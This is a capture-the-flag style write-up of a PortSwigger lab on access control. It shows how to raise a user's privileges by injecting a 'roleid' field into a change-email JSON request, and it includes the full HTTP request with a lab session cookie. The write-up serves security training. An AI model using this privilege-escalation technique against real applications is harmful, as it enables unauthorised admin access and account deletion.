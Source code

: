 # User role can be modified in user profile

## Description

[This lab](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile) has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of `2`. 

## Reproduction and proof of concept

1. Log in with credentials `wiener:peter` and access the account page.
2. Use the provided feature to update the email address associated with your account.
3. The response contains your role ID.
4. Send the email submission request to Burp Repeater, add `"roleid":2` into the JSON in the request body, and resend it.

```text
POST /my-account/change-email HTTP/1.1
Host: 0ac800ce047e4849c10f5431004d000a.web-security-academy.net
Cookie: session=kuDuAjpjB1Yrs17aMophAZpeAQf8QQLJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 50
Origin: https://0ac800ce047e4849c10f5431004d000a.web-security-academy.net
Referer: https://0ac800ce047e4849c10f5431004d000a.web-security-academy.net/my-account
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"test@normal-user.net",
"roleid":2
}
```

5. The response shows your ``roleid`` has changed to 2.
6. Browse to ``/admin`` and delete ``carlos``.

## Exploitability

An attacker will need to access the admin panel, and use it to delete the user `carlos`. 
